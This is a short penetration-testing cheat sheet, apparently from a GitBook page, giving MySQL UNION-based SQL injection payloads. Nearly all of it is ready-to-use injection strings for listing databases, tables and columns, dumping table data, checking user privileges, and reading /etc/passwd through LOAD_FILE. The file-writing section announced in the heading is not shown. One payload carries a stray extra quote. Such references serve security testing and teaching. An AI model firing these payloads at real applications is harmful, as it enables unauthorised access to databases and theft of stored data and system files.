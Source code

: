 {% hint style="warning" %}
On the below commands, the comment at the end includes a space: `--` ! The `#` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

`UNION`-based payload for reading and writing files:

{% tabs %}
{% tab title="Read" %}
{% code overflow="wrap" %}
```sql
# Enumerate user
a' UNION SELECT 1, user(), 3, 4-- 
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 

# User's privileges
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 

# Superpriv
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 

# Read file
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endcode %}
{% endtab %}
